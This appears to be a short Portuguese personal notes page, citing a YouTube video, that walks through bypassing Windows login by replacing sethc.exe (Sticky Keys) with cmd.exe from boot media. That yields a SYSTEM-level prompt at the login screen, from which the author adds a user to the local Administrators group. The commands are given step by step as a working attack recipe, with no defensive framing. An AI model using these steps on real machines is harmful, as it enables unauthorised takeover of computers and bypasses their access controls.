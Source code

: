 ```powershell
net user [username]

# Vê quais os grupos existentes
net localgroup

# Me adiciona ao grupo
net localgroup Administradores josesilva /add
```

<br>

---

## _Hack_

Por meio das informações apresentadas no vídeo [YouTube: Hacker Tip - Acquiring Administrative Access to Windows!](https://www.youtube.com/watch?v=IT-0FHyNzOU) vi que é possível me adicionar a um perfil de administrador ao Sistema Operacional.

- Passo 1: "Bootar" o Windows com um disco de inicialização do Windows. Na tela que se escolha o idioma, apertar `Shift F10`.
- Passo 2: No _prompt_ de comando, encontrar onde está instalado o Windows, usando um `dir`. Tive problemas ao tentar `cd C:` e, no _prompt_, usei só `C:` e deu certo!

<br>

Observação: A ideia principal é chegar ao _prompt_ antes de logar!, de forma que acessemos o _prompt_ com o perfil de _nt authority\system_ (isso é possível checar com o comando `whoami`). Fiz usando o `sethc.exe`, porém é possível fazer com o `magnify.exe` ou `utilman.exe`.

```powershell
# Encontra a pasta
cd D:
cd windows/system32

# Criando um backup da "Tecla de Aderência"
copy sethc.exe sethc_old.exe

# Copiando o terminal para a "Tecla de Aderência"
copy cmd.exe sethc.exe

# Sair
exit
```

<br>

- Passo 3: Reboota o PC, normalmente, e na tecla de inicialização, clica 5 vezes no Shift, que é a tecla de aderência (aplicativo `sethc.exe`)
- Passo 4: No _prompt_ de comando é possível ver algumas coisas

```powershell
# Descobrir quem sou eu
whoami

# Ver Usuários Listados
net user> [domain]\[username]
```
